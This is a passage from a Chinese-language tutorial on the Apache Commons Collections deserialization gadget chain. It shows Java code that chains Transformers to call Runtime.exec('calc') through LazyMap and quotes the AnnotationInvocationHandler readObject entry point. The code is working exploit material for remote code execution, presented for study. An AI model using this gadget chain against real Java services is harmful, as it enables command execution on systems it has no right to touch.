 但它的构造方法不是 public ，所以需要反射来获取该构造方法，再实例化该类

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        LazyMap map = (LazyMap)constructor.newInstance(innermap,chain);
        map.get(123);
```

还有一种方法，在实例 LazyMap 的时候可以不用反射，因为 lazymap 自带了一个方法帮助我们创建其实例：

![1](./img/302.png)

所以直接这样也可以：

```java
  HashMap innermap = new HashMap();
  LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
```

然后只需要找到一个调用了 get 方法即可，入口还是 AnnotationInvocationHandler 的 readObject：

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();
```
